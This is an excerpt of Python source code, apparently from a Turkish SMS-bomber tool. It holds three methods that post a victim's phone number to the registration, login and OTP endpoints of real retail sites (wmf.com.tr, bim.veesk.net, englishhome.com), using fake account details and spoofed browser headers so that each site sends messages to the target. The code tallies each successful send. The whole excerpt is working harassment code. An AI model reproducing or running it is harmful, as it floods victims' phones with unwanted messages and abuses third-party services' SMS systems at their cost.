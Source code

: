      
    #wmf.com.tr
    def Wmf(self):
        try:
            wmf = requests.post("https://www.wmf.com.tr/users/register/", data={
                "confirm": "true",
                "date_of_birth": "1956-03-01",
                "email": self.mail,
                "email_allowed": "true",
                "first_name": "Memati",
                "gender": "male",
                "last_name": "Bas",
                "password": "31ABC..abc31",
                "phone": f"0{self.phone}"
            }, timeout=6)
            if wmf.status_code == 202:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> wmf.com.tr")
                self.adet += 1   
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> wmf.com.tr")
    
    
    #bim
    def Bim(self):
        try:
            bim = requests.post("https://bim.veesk.net:443/service/v1.0/account/login",  json={"phone": self.phone}, timeout=6)
            if bim.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> bim.veesk.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> bim.veesk.net")


    #englishhome.com
    def Englishhome(self):
        try:
            url = "https://www.englishhome.com:443/api/member/sendOtp"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://www.englishhome.com/", "Content-Type": "application/json", "Origin": "https://www.englishhome.com", "Dnt": "1", "Sec-Gpc": "1", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "Te": "trailers"}
            json={"Phone": "+90"+self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["isError"] == False:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> englishhome.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> englishhome.com")
            